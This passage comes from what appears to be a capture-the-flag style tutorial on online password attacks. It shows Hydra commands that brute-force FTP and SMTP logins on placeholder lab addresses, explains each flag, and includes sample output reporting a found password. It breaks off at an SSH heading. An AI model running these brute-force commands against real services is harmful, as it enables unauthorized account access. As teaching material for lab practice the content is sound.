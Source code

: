 - **FTP**

```shell
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
        
```



`-l `ftp we are specifying a single username, use-L for a username wordlist

`-P` Path specifying the full path of wordlist, you can specify a single password by using -p.

`ftp://10.10.x.x` the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

#### SMTP

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to  try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

- **SMTP**

```shell
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
        
```

#### SSH

SSH  brute-forcing can be common if your server is accessible to the  Internet. Hydra supports many protocols, including SSH. We can use the  previous syntax to perform our attack! It's important to notice that  password attacks rely on having an excellent wordlist to increase your  chances of finding a valid username and password.

- **SSH**
